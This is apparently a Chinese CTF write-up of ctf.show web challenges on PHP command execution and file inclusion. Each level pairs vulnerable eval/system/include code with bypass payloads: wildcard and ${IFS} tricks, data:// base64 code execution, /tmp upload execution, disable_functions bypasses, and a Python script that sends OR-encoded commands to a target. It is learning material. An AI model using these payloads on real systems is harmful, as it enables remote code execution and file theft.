

## 信息收集


## 爆破


## 命令执行

### <font color='orange'>web29-web36+web40</font>


#### 29

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

就过滤了flag，可以用**f***绕过或者**fla?.php**或者**fl''ag.php**

```
cat f*
cat fla?.php
cat fl''ag.php
tac or nl也可以
如果用''绕过的话要用``反引号，而反引号里面的内容好像前面必须带echo才能输出
```

#### 30

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

payload

```
echo `cat fla_.ph_`;
or
`cp f* 1.txt`; 打开1.txt
```

#### 31

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

过滤了空格，命令行函数可能直接用不了

可以嵌套一下

**GET:**`?c=eval($_POST[1]);`

**POST:**`1=phpinfo();`

没过滤就很轻松了

hint介绍了一种新的payload:

`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

> **show_source — 别名 highlight_file()**
>
> **pos — 别名current()**

> **next**
>
> 将数组中的内部指针向前移动一位 
>
> **current**
>
> 返回数组中的当前值
>
> ```php
> <?php
> $transport = array('foot', 'bike', 'car', 'plane');
> $mode = current($transport); // $mode = 'foot';
> $mode = next($transport);    // $mode = 'bike';
> $mode = next($transport);    // $mode = 'car';
> $mode = prev($transport);    // $mode = 'bike';
> $mode = end($transport);     // $mode = 'plane';
> ?> 
> ```

> **array_reverse**
>
> 返回单元顺序相反的数组     

**scandir**学过

> **localeconv**
>
> ```php
> <?php 
> var_dump(localeconv());
> ?>
>     array(18) {
>   ["decimal_point"]=>
>   string(1) "."
>   ["thousands_sep"]=>
>   string(0) ""
>   ["int_curr_symbol"]=>
>   string(0) ""
>   ["currency_symbol"]=>
>   string(0) ""
>   ["mon_decimal_point"]=>
>   string(0) ""
>   ["mon_thousands_sep"]=>
>   string(0) ""
>   ["positive_sign"]=>
>   string(0) ""
>   ["negative_sign"]=>
>   string(0) ""
>   ["int_frac_digits"]=>
>   int(127)
>   ["frac_digits"]=>
>   int(127)
>   ["p_cs_precedes"]=>
>   int(127)
>   ["p_sep_by_space"]=>
>   int(127)
>   ["n_cs_precedes"]=>
>   int(127)
>   ["n_sep_by_space"]=>
>   int(127)
>   ["p_sign_posn"]=>
>   int(127)
>   ["n_sign_posn"]=>
>   int(127)
>   ["grouping"]=>
>   array(0) {
>   }
>   ["mon_grouping"]=>
>   array(0) {
>   }
> }
> ```

用**localeconv**数组的第一个数据**. 小数点**传给**scandir**

因为**scandir**的返回数组前两个为小数点，所有要**array_reverse**一下

此时第一个为index.php，第二个(**next**)就是flag.php

#### 32

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

**( ` ' ;空格** 都被过滤了，很多函数都用不了

考虑不需要括号的函数 **include**

(不需要括号的函数**include require unset isset print echo**)

`?c=include$_GET[1]?>&1=`

变成了文件包含题

`?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php`

即可

#### 33

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了一个双引号，用上一题的办法同样可以

换成**require**也可以

> **require**和**include**在包含纯文件(无后缀)时会直接显示出来，php是包含这个文件(不会打印出来)，可以用它的函数或者变量

#### 34

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了 **冒号**，上面的办法依然可行，过滤的是c的而不是1的

#### 35

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

同上

#### 36

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

过滤了数字，1换成a就行

#### 40

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤的是中文的（），不是英文的，所以31题的无参传payload是可以的(其实没有过滤空格，感觉有很多方法)

`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

下面介绍wp视频里的一种特殊的办法

首先

GET  `?c=print_r(get_defined_vars());&a=111`

POST`1=2313`

回显

```php
Array ( [_GET] => Array ( [c] => print_r(get_defined_vars()); [a] => 111 ) [_POST] => Array ( [1] => 2313 ) [_COOKIE] => Array ( ) [_FILES] => Array ( ) [c] => print_r(get_defined_vars());)
```

发现**GET**和**POST**传进去的参数都包含在了数组里面

这样可操作空间就大了

GET`?c=eval(array_pop(next(get_defined_vars())));`

POST`1=phpinfo();`

**next**得到的是一个数组

> **array_pop** — 弹出数组最后一个单元（出栈）

用**array_pop**弹出后就变成数据(字符串或数字)，放在**eval**里面就可以执行啦

可以看到里面有个cookie参数，所以本题其实也可以**cookie注入**(具体参考[GXYCTF2019]禁止套娃)


### <font color='orange'>web37-web39</font>


#### 37

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

考察 文件包含

**data://text/plain 任意代码执行**

```php
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
后面接的直接就是php代码的base64形式
上面的就是
    <?php system('cat flag.php');?>
wp视频介绍了一个
    <?php system('mv flag.php 1.txt');?> mv是move的缩写，就是剪切，将flag.php移到了1.txt
其实只过滤了flag，加个占位符直接?c=data://text/plain,<?php system('cat fla_.php');?>也行
```

#### 38

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤了php，就防止了直接<?php ?>，但是base64并没有过滤

所以上面base64的办法依旧可以

还有一种办法

> <? ?>和<?= ?>是短标签而<?php ?>是长标签，其中<?= 是代替 <? echo的，<? ?> 代替的是<?php ?>，当你发现你的PHP不支持使用短标签，请到PHP的安装目录下找到php.ini文件，使用Ctrl+F搜索short_open_tag ，然后将等号后面的Off改成On，再重新启动Apache服务，那么短标签就会被识别了

本题只支持**<?= ?>**

所以

`?c=data://text/plain,<?=system('cat f*'); ?>`

也是可以的

#### 39

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

加了一个后缀，对代码执行根本没有太大影响

用上面的方法都可以，只是这个后缀会被打印出来


### <font color='orange'>web41(脚本题)(未完全懂)</font>


```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

将数字和字母全过滤了，但是 **| 按位或** 没被过滤，可以用**|**构造出所有的函数

<font color='pink'>php脚本</font>

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

生成各个字符所对应的字符串

<font color='pink'>python脚本</font>

```py
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
    param=action(input("\n[+] your function：") )+action(input("[+] your command："))
    data={
       'c':urllib.parse.unquote(param)
       
       }
    r=requests.post(url,data=data)
    print("\n[*] result:\n"+r.text)
    print(data)
    print(param)

```

在脚本目录下`python 41.python http://1d35c11c-a12a-40f6-823f-b82655e006c5.challenge.ctf.show/`来使用

本题还是有些地方不懂，**eval**函数这里出了点问题

`eval("echo $c;");`会报错，但双引号变单引号不会，但是本题中就是用的双引号...

(双引号里面的会当成php解析，但eval本来就是执行php代码的，并不需要再解析，所以需要加个\反斜杠转义一下)

但为什么能成功执行命令还不知道...

破案了破案了，正是因为双引号里面的会被当成php解析，所以可以执行代码后再输出，虽然会报错，不管就好了

> **别人的wp**
> 通俗解释：
> 例如源码中禁止我们使用了数字3，也就是ascii码值为51，我们可以使用或运算符在没有被禁止的字符中构造出51来，比如19和32没有被禁止，我们进行或运算19|32=51，就可以获得51这个ascii码值，也就是成功得到了数字3


### <font color='orange'>web42-web54</font>


#### 42

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

这次后面多了一个" >/dev/null 2>&1"语句，意思是写入的内容会永远消失，也就是不进行回显

>1：> 代表重定向到哪里，例如：echo “123” > /home/123.txt
>2：/dev/null 代表空设备文件
>3：2> 表示stderr标准错误
>4：& 表示等同于的意思，2>&1，表示2的输出重定向等同于1
>5：1 表示stdout标准输出，系统默认值是1，所以">/dev/null"等同于 “1>/dev/null”
>因此，>/dev/null 2>&1 也可以写成“1> /dev/null 2> &1”
>
>那么本文标题的语句执行过程为：
>1>/dev/null ：首先表示标准输出重定向到空设备文件，也就是不输出任何信息到终端，也就是不显示任何信息。
>2>&1 ： 接着，标准错误输出重定向到标准输出，因为之前标准输出已经重定向到了空设备文件，所以标准错误输出也重定向到空设备文件。

所以绕过也很简单，将这段话不分在这个命令就好啦

用`;`号`||`或者`%0a`换行符等等一些命令分隔符进行命令分隔

#### 43

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

就过滤了`;`分号和`cat`，还有很多命令啦

`nl tac`...

#### 44

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

多了一个flag，没啥影响，继续下一题

#### 45

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了空格

`< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS`在里面找找能用的绕过就行

#### 46

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

多过滤了`*`关键字查询，换`?`就行

#### 47

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

与上题相比多了几个不知道怎么用的函数，与上题一样

看别人的wp发现原来也是查看文件的

> more:一页一页的显示档案内容
> less:与 more 类似
> head:查看头几行
> tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
> tail:查看尾几行
> nl：显示的时候，顺便输出行号
> od:以二进制的方式读取档案内容
> vi:一种编辑器，这个也可以查看
> vim:一种编辑器，这个也可以查看
> sort:可以查看
> uniq:可以查看
> file -f:报错出具体内容
> grep
> 1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令：
> grep test *file
> strings

#### 48

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

又过滤了一些读取的命令，但是还是可以用之前的命令

#### 49

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

还是一样

突然有个疑惑就是为什么过滤了**[0-9]**但是还可以用`%0a 和 %09`???

#### 50

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

终于过滤了`%`，`<`绕过空格`||`绕过`>/dev/null 2>&1`即可

#### 51

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

**crazy!!!!**

过滤了**tac**，但还可以用**nl**

又发现一个新办法，可以用`ta\c `来绕过，本题过滤的所有函数都可以使用!!!!

#### 52

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`< >`但是放出来了`$`，上面过滤空格的依旧可以用

`?c=ca\t${IFS}fla''g.php||`发现...假web

找根目录看到了真的flag，继续**cat**就行

#### 53

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

和上题相比好像就把后面的回显吞噬删了

直接`?c=ca\t${IFS}fla''g.php`就行

#### 54

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

这种过滤是无论如何都不能按顺序出现这个词`ca\t`不能用`cabqbqbqt`也不行

不知道为什么`?c=cp${IFS}fl?g.php${IFS}a.txt`成功不了(应该是构成了上面某个词)

换成`?c=cp${IFS}f???.php${IFS}z.txt`就可以了

也可以用新的办法`grep`   **搜索命令**

直接`?c=grep${IFS}show${IFS}fl?g.php`

在flag.php中搜索有show的一行并输出


### <font color='orange'>web55</font>


#### 55

总算是理解透了，一篇[WP:无数字和字母的命令执行](https://blog.csdn.net/qq_46091464/article/details/108513145)

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了大小写字母，用的是`system`，也不能用异或的办法构造函数

然后用了一个特别特别特别离谱的办法

##### linux 小数点的使用

在linux中可以用`. 小数点`执行脚本

就是**将文件中的内容<font color='pink'>按行</font>当作linux命令执行**


##### linux 服务器上传php文件的存储位置

一定是**<font color='purple'>php</font>**文件，对linux服务器上传的php文件会被储存到`/tmp/phpxxxxxX`中，php后六位是随机字母，最后一位是大写字母

##### linux 通配符

linux常见的通配符`?`和`*`，其实还有`[^x]`，意思是这个地方的字符不是`x`

还有`[A-Z]`，意思是这个地方的字符是大写的A到Z(按ASCII码排序)，所以可以用`[@-[]`来表示大写字母

本题所用的知识都了解了，接下来就是构造上传文件的格式

直接

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://d65a5a4e-520f-4ba2-af36-174998e12563.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

然后在bp里面打开，上传文件，查看抓包


就得到这个，**html**文件的意义就是构造下面上传文件的这段内容！！！


在POST处后面构造url`?c=.%20/???/????????[@-[]`

下面就是需要执行的命令，一定要在---wa什么什么的正好上一排才行(不知道为什么)

然后直接`cat`得到flag就行

##### 二解

看**dota_st**的wp时发现了另一个解法

> bin为binary的简写，主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等。
> 我们日常直接使用的cat或者ls等等都其实是简写，例如ls完整全称应该是/bin/ls

懒得再开环境了，本地测试了一下


直接用dota师傅的payload发现有一个同名的，过滤`_`就可以，然后转码一下就得到flag

相当于`/bin/base64 flag.php   <==>  base64 flag.php`太强了！！！

#### 56

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了数字，上题的解法一依然可用


### <font color='orange'>web57</font>


```php
<?php
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

linux的一些运算

> 运算完后都要加上`$(())`来表示这是一次运算
> `$(())` 代表做一次运算，因为里面为空，也表示值为0
> `$((~$(())))` 对0作取反运算，值为-1
> `$(($((~$(())))$((~$(())))))` -1-1，也就是(-1)+(-1)为-2，所以值为-2
> `$((~$(($((~$(())))$((~$(())))))))` 再对-2做一次取反得到1，所以值为1

取反运算得到的值就是  -(a+1)

所以把-1的值`$((~$(())))`重复加上37次得到-37，再取反，得到-(-37+1)=36

所以就是`$((  ~$((  '$((~$(())))'*37 ))))`可以在两个-1之间加一个加号，也可以不加

用py打印一下就是

```python
data = "$((~$(("+"$((~$(())))"*37+"))))"
print(data)
#结果：$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```


### <font color='orange'>web58-web</font>


下面一部分考的是**绕过disable_functions系列**，尽量用不同的办法

[yu师傅的博客有很多种办法](https://blog.csdn.net/miuzzx/article/details/108619930)

#### 58

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

应该是用php禁用了很多函数

回显信息是这样的

**Warning**: phpinfo() has been disabled for security reasons in **/var/www/html/index.php(17) : eval()'d code** on line **1**

system也被禁用了，本题考察的应该是php的文件读取

直接`highlight_file('flag.php')`得到答案

本题还可以蚁剑连接得到答案

补充一些php查看文件的函数

```php
直接读取
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include($filename); // 非php代码
include_once($filename); // 非php代码
require($filename); // 非php代码
require_once($filename); // 非php代码
print_r(fread(popen("cat flag", "r"), $size));
print_r(fgets(fopen($filename, "r"))); // 读取一行
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetcsv(fopen($filename,"r"), $size));
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
print_r(fscanf(fopen("flag", "r"),"%s"));
print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组
----------------------------------------------------------------------------------------
通过复制，重命名读取php文件内容
copy("flag.php","flag.txt");
rename("flag.php","flag.txt");
----------------------------------------------------------------------------------------
通过fopen读文件内容
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetss($a);echo $line;}
$a=fopen("flag.php","r");echo fpassthru($a);
$a=fopen("flag.php","r");echo fread($a,"1000");
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}
$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);print_r($line);}
```

#### 59

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

`show_source`没被禁用，但是换种办法

`var_dump(file('flag.php'));`

#### 60

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

`show_source`依然没被禁用，但是换种办法

`copy('flag.php','flag.txt')`，访问flag.txt

#### 61-65

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

很多函数都被禁了，直接`c=show_source('flag.php');`吧

#### 66

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

`show_source`被ban了，发现`highlight_file`还可以用

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-07 19:40:53
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:41:00
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$flag="秀秀得了,这次不在这里";
```

需要先扫一下目录

`print_r(scandir('/'));`，发现`flag.txt`，直接`highlight_file('flag.txt')`即可

补一个新办法`c=$a=opendir("/"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };`

也是扫出目录

> **opendir**
>
> 打开目录句柄
>
> 文档用法
>
> ```php
> <?php
> $dir = "/etc/php5/";
> 
> // Open a known directory, and proceed to read its contents
> if (is_dir($dir)) {
>     if ($dh = opendir($dir)) {
>         while (($file = readdir($dh)) !== false) {
>             echo "filename: $file : filetype: " . filetype($dir . $file) . "\n";
>         }
>         closedir($dh);
>     }
> }
> ?> 
> ```

#### 67

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

相对于上题多过滤了`print_r`，改成`var_dump`就可，其他方法一样

#### 68

`highlight_file`也被ban了，打开环境只有

**Warning**: highlight_file() has been disabled for security reasons in **/var/www/html/index.php** on line **19**

上面扫目录的办法还可以用，发现Y4师傅一个新的办法

`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}`还不懂

因为是`txt`文件，`include include_once require require_once`都可以读出文件

#### 69

打开同上

发现`var_dump`也被ban了，别人wp总结的几种方式，包含了上面提到的yu师傅和y4师傅的办法

```php
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

前四种被ban了，后四个都可以，原理全是遍历数组的办法读取

> **glob**
>
> 寻找与模式匹配的文件路径
>
> `*`匹配零个或多个字符。  
> `?` - 只匹配单个字符（任意字符）。  
> `[...]` - 匹配一组字符中的一个字符。如果第一个字符是 !，则为否定模式，即匹配不在这组字符中的任意字
> `\` - 只要没有使用 GLOB_NOESCAPE 标记，该字符会转义后面的字符。 
>
> 例
>
> ```php
> <?php
> foreach (glob("*.txt") as $filename) {
>     echo "$filename size " . filesize($filename) . "\n";
> }
> ?> 
> 返回类似
> funclist.txt size 44686
> funcsummary.txt size 267625
> quickref.txt size 137820
> ```

自己发现了一种方法  `c=echo implode(scandir('/'));`

**implode — 用字符串连接数组元素** 然后就可以echo了

#### 70

同上

#### 71

```php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}
```

不知道师傅怎么得到的源码(后来发现原来以附件形式给了...)

> **ob_get_contents**
>
> 得到当前缓冲区的内容
>
> **ob_end_clean**
>
> 删除当前输出缓冲区
>
> 每次**输出内容**时都会先到输出缓冲区，上述函数就可得到缓冲区的内容和删除缓冲区的内容
>
> ```php
> <?php
> ob_start();
> echo "Hello ";//没有输出
> $out1 = ob_get_contents();
> echo "World";//没有输出
> $out2 = ob_get_contents();
> ob_end_clean();
> var_dump($out1, $out2);
> ?> 
> 输出
> string(6) "Hello " string(11) "Hello World"
> ```

本题就是得到了输出的内容，清楚后，再将得到的输出的内容的数字和字母替换为**?**

破题的关键就是不执行后面的代码

所以`c=include('/flag.txt');exit;`即可

> **exit**
>
> 输出一个消息并且退出当前脚本
>
> **exit(int or string)**
>
> 也可以不带括号
>
> `status`
>
> 如果 `status` 是一个字符串，在退出之前该函数会打印 `status` 。
> 如果 `status` 是一个 int，该值会作为退出状态码，并且不会被打印输出。退出状态码应该在范围0至254，不应使用被PHP保留的退出状态码255。状态码0用于成功中止程序。 

#### 72

暂时放着

#### 73

同71

#### 74

**scandir**被ban了，前面的几个扫目录办法依旧可行

#### 75

同72有权限阻拦，暂时放着

#### 76

同72有权限阻拦可以用
`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();`
查目录(其他的权限不允许，不知道为什么)

但是不能直接用`include`读

后面的暂时放着吧...开新坑了


## 文件包含


### web78


```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

